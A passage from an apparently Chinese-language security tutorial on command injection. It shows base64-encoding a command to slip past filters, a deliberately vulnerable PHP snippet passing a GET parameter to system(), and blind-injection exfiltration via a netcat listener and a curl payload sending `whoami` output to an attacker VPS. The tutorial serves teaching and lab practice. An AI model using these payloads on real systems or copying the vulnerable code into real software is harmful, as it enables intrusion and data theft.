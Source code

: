 ```txt
ubuntu@VM-0-8-ubuntu:~/shell$ echo 'cat' | base64
Y2F0Cg==
ubuntu@VM-0-8-ubuntu:~/shell$ `echo 'Y2F0Cg==' | base64 -d` 1.txt
abc
```

```txt
root@mannix-kali-2018-3:~/Desktop# echo 'cat' | base64
Y2F0Cg==
root@mannix-kali-2018-3:~/Desktop# `echo 'Y2F0Cg==' | base64 -d` 1.txt
abcdef
root@mannix-kali-2018-3:~/Desktop# 
```

---

## 处理无回显的命令执行

* 1.利用自己的vps

在vps上使用nc监听

```txt
➜ ~ nc -lnvp 4567
Listening on [0.0.0.0] (family 0, port 4567)
```

```txt
root@mannix-kali-2018-3:~/Desktop# netcat -lvp 4567
listening on [any] 4567 ...
```

后台代码

```php
<?php

error_reporting(0);

$a = $_GET['id'];
system("$a");
```

payload

```txt
curl http://vps_ip:vps_port/?id=`whoami`
```

```txt
curl http://172.16.245.163:4567/?id=`whoami`
```

收到回显

![t01d381077c0f32bb63.png](https://whitecell.io/upload/attach/201810/151_X68XK74THDD7FUX.png "t01d381077c0f32bb63.png")

![Snipaste_2018-10-21_18-25-16.png](https://whitecell.io/upload/attach/201810/151_M59RKCFEJHMSFES.png "Snipaste_2018-10-21_18-25-16.png")


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128